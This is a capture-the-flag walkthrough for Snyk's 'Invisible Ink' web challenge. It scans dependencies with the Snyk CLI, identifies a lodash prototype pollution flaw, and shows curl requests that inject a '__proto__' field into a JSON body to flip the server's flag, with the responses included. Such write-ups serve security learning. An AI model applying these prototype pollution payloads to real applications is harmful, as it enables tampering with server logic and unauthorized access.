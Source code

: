 link: https://ctf-101.snyk.io/challenges#Invisible%20Ink
server: http://35.211.53.53:8000/

Expose hidden vulnerabilities in the web application.

Hint: download Snyk CLI scans to the packet.json -> 
https://github.com/snyk/snyk#installation

Install npm if you don't have ii yet:

$sudo apt-get install npm

Now install snyk CLI:

$npm install snyk@latest -g

You need to access to snyk before you can run the command to test the package->

$snyk auth  (I suggest to access with gitHub)

Now you have to install the package

***what is package.json*** -> https://blog.ezekielekunola.com/understanding-the-package.json-file

$npm install package.json

Run this command into the folder with package.json, where you have just ran the previous command:

$snyk monitor

This command will show you the current vulnerabilities found.
Possible  response:

Explore this snapshot at https://app.snyk.io/org/emanuelepicas/project/3137722f-04f4-4af7-8a0e-2952b5192a51/history/f2123751-8d69-448f-83d6-87c2d005d96b

Notifications about newly disclosed issues related to these dependencies will be emailed to you.

Click on the link generated here you will find the current Vunerabilities

Browsing into the server to hack, you will find a response, which will suggest you a request to do.
Below there is the command to run:

$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message": "ping"}' 

***Response***
{"userID":"::ffff:82.57.151.149","time":1651490382169,"message":"ping","flag":"disabled"} 

If we take a look at the file index.js, we can see that the script will output the flag if the value of the flag is on true.


We need to manipulate the object to retrive the flag using a vulnerabilities that we can find from the previous command: "snyk monitor"

A good one could be prototipe pollution:

https://security.snyk.io/vuln/SNYK-JS-LODASH-567746

This could be a possible solution:

$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message":"ping","__proto__":{"flag":"true"}}'  
***Response***

{"userID":"::ffff:82.57.151.149","time":1651497940769,"message":"ping","flag":"SNYK{FLAGTOFIND}"} 
